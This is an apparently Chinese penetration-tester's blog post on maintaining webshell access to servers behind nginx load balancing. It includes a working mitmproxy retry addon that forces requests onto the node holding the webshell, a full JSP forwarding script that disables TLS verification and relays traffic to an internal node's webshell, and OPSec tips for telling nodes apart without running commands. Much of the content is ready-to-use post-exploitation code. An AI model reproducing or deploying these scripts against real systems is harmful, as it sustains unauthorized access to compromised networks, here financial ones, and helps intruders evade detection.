


0x00 序
最近打金融项目的时候，webshell遇见了负载均衡，自己之前其实看过相关文章，但是实战操作起来还是遇见了不少坑点的，接下来就根据前人的文章，同时结合实战和自己的思考，写了本篇文章。
0x01 什么是负载均衡
负载均衡是一种将来自多个用户或应用程序的请求分配到多个服务器或设备上的技术，以提高整体性能、可用性和可扩展性。它就像交通管制员，可以将流量分散到不同的道路上，避免任何一条道路堵塞。
在互联网应用中，负载均衡通常用于将来自用户的请求分发到多台 Web 服务器。这可以提高网站的性能和响应速度，并确保即使在高流量情况下也能保持正常运行。此外，负载均衡还可以提高应用程序的可用性，如果一台服务器出现故障，其他服务器可以继续处理请求而不会中断服务。
拿常见nginx实现LBS来说：

简单总结就是：我们访问的webshell是通过nginx转发过去的，webshell的实际处理，nginx会默认对负载节点进行轮询请求，也就是我们访问webshell可能一会在node1，一会在node2。
那么分辨是否采用了这种技术也很简单：
- 我们使用webshell执行命令，发现查询到的内网ip一直在变化
- 我们查看目录文件时，发现刷新一次，目录就发生变化了
负载均衡的问题在哪里？
根据我们上面的介绍，我们的webshell请求会随机请求到内部未知的node点。
在如下的webshell场景中
- 我们上传文件使用的是将文件分块写入（中间件会限制data大小，大文件必须分块），因为是不同的node节点处理，文件分块也就导致，file_piece1写入到了node1节点，file_piece2写入到了node2节点。无法落地大文件。
0x02 未做文件同步的负载均衡
这也是本次自己实战中遇到的情况， 未做文件同步，也就是我们上传webshell，请求处理后只落地在了其中的某一个node节点。
这也就导致，请求一会200（轮询到了落地webshell的node节点），一会404（未轮询到落地webshell的node节点）。
mitmproxy循环请求
当时想的第一种简便易行的方式就是写脚本、循环判断，当前请求为404时就循环请求，直到请求方式为200，也就是说，我们保证了所有的请求都到了落地webshell的node节点，也能保证大文件的上传
demo:
from mitmproxy import ctx, http
import requests
class ProxyAddon:
def request(self, flow: http.HTTPFlow) -> None:
# 只处理POST请求
if flow.request.method == "POST":
url = self.get_https_url(flow.request.host, flow.request.path)
# 打印转发前的请求内容
print("Original Request:")
print(flow.request.headers)
print(flow.request.content.decode())
# 发送POST请求到目标HTTPS服务器
while True:
try:
response = self.make_https_request(url, flow.request.content)
break
except:
continue
while True:
try:
response = self.make_https_request(url, flow.request.content)
if(response.status_code != 404):break
continue
except:
continue
# 打印转发后的响应内容
print("Forwarded Response:")
print(response.headers)
print(response.content.decode())
# 将HTTPS响应返回给监听
headers = [(k.encode('utf-8'), v.encode('utf-8')) for k, v in response.headers.items()]
flow.response = http.Response.make(
200,
response.content,
headers
)
def make_https_request(self, url, data):
proxies = {'http':'http://127.0.0.1:8080',
'https':'https://127.0.0.1:8080'}
# 自定义超时时间为10秒
response = requests.post(url, data=data, timeout=3, proxies=proxies, verify=False)
return response
def get_https_url(self, host, path):
# 根据需要修改为相应的HTTPS地址
https_host = f"https://{host}"
return f"{https_host}{path}"
addons = [
ProxyAddon()
]
这个方式还有两个有意思的点需要说一下：
- 需要设置webshell工具的超时时间，因为请求到mitmproxy的时候，404的请求会循环请求，直到响应为200时，响应数据才会转发给webshell客户端，运气不好的话，这个过程可能会持续很长时间，所以需要设置webshell工具的超时时间，直到可以正常接收数据和响应展示。
- 可以留意我上面的脚本，有一个http转https的 操作，这个是因为mitmproxy配置https截取数据非常麻烦，所以就想了这种方式，我当时目标的环境就是https，之后在webshell连接工具的url部分填http即可，请求的处理部分都在上面的py脚本里，这里的webshell客户端就充当构造原始请求和解码响应数据展示的功能
0x03 做了文件同步的负载均衡
与上面的相对应，我们上传的文件会同步到所有的负载node节点
增加HTTP流量转发脚本，统一转发内网单一node
这是蚁剑作者medicean的思路
需要落地两个文件，一个是webshell，一个是流量转发脚本
直接做阅读理解：
单纯的http流量转发脚本
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="javax.net.ssl.*" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.DataInputStream" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.OutputStream" %>
<%@ page import="java.net.HttpURLConnection" %>
<%@ page import="java.net.URL" %>
<%@ page import="java.security.KeyManagementException" %>
<%@ page import="java.security.NoSuchAlgorithmException" %>
<%@ page import="java.security.cert.CertificateException" %>
<%@ page import="java.security.cert.X509Certificate" %>
<%!
public static void ignoreSsl() throws Exception {
HostnameVerifier hv = new HostnameVerifier() {
public boolean verify(String urlHostName, SSLSession session) {
return true;
}
};
trustAllHttpsCertificates();
HttpsURLConnection.setDefaultHostnameVerifier(hv);
}
private static void trustAllHttpsCertificates() throws Exception {
TrustManager[] trustAllCerts = new TrustManager[] { new X509TrustManager() {
public X509Certificate[] getAcceptedIssuers() {
return null;
}
@Override
public void checkClientTrusted(X509Certificate[] arg0, String arg1) throws CertificateException {
// Not implemented
}
@Override
public void checkServerTrusted(X509Certificate[] arg0, String arg1) throws CertificateException {
// Not implemented
}
} };
try {
SSLContext sc = SSLContext.getInstance("TLS");
sc.init(null, trustAllCerts, new java.security.SecureRandom());
HttpsURLConnection.setDefaultSSLSocketFactory(sc.getSocketFactory());
} catch (KeyManagementException e) {
e.printStackTrace();
} catch (NoSuchAlgorithmException e) {
e.printStackTrace();
}
}
%>
<%
String target = "http://172.24.0.2:8080/ant.jsp";//填写内网node的webshell地址
URL url = new URL(target);
if ("https".equalsIgnoreCase(url.getProtocol())) {
ignoreSsl();
}
HttpURLConnection conn = (HttpURLConnection)url.openConnection();
StringBuilder sb = new StringBuilder();
conn.setRequestMethod(request.getMethod());
conn.setConnectTimeout(30000);
conn.setDoOutput(true);
conn.setDoInput(true);
conn.setInstanceFollowRedirects(false);
conn.connect();
ByteArrayOutputStream baos=new ByteArrayOutputStream();
OutputStream out2 = conn.getOutputStream();
DataInputStream in=new DataInputStream(request.getInputStream());
byte[] buf = new byte[1024];
int len = 0;
while ((len = in.read(buf)) != -1) {
baos.write(buf, 0, len);
}
baos.flush();
baos.writeTo(out2);
baos.close();
InputStream inputStream = conn.getInputStream();
OutputStream out3=response.getOutputStream();
int len2 = 0;
while ((len2 = inputStream.read(buf)) != -1) {
out3.write(buf, 0, len2);
}
out3.flush();
out3.close();
%>
过程如图：实际上就是webshell先请求转发的antproxy.jsp，无论这个脚本在哪个node，都会把请求包统一转发到指定的内网ip地址的node，也就保证了我们的请求都落在了一个node上。
其他语言的转发脚本
其他语言负载很少见，直接让GPT做吧
必须要上传两个文件吗？
可能有人觉得上传两个文件操作不够完美，但是无论如何，负载均衡的情况都是一定要至少上传两次的。
因为我们首先要上传脚本，来判断不同node的差异性，这个差异有可能是ip，也有可能是文件。
第二个上传的脚本才是根据差异性来保证所有请求都到某一个node。
0x04 OPSec下的思路
遵循OPSec，我们尽量不使用webshell直接执行命令获取ip和端口信息，如果是Linux的情况还好说，proc下面保存着进程的端口信息，net下面也保存着端口信息。非dhcp情况下也能从本地config读ip信息，读不到ip或者是windows就比较麻烦了。
无法获取node的ip信息，就只能寻找其他差异性了：
- 可以通过上传的webshell刷新某一目录，查看文件是否不同来寻找差异性
- 通过webshell在某一node新建临时文件来手动创造差异性
接下来就可以结合上面的未做文件同步的思路了：
确定差异性后，重新上传一个webshll，其中增加一个判断逻辑，判断条件就是我们上面提到的差异性，拿上面提到的第2点手动创造差异性来说：
if(操作系统不存在该临时文件){返回404}
再结合上面0x02的循环判断状态码的方式，也能在不执行系统命令的前提下完成负载webshell的连接。
参考链接：
（负载均衡下的 WebShell 连接）https://mp.weixin.qq.com/s/4Bmz_fuu0yrLMK1oBKKtRA